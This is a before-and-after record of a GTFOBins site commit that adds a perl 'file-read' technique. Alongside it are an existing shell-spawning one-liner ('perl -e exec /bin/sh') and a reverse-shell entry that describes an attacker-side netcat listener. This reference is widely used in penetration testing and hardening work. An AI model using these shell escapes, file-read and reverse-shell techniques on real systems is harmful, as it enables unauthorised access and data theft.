

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/perl.md, in a window 1280 px wide and 900 px high. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Add perl file-read

```diff
--- a/_gtfobins/perl.md
+++ b/_gtfobins/perl.md
@@ -2,6 +2,10 @@
 functions:
   shell:
     - code: perl -e 'exec "/bin/sh";'
+  file-read:
+    - code: |
+        LFILE=file_to_read
+        perl -ne print $LFILE
   reverse-shell:
     - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
       code: |
```
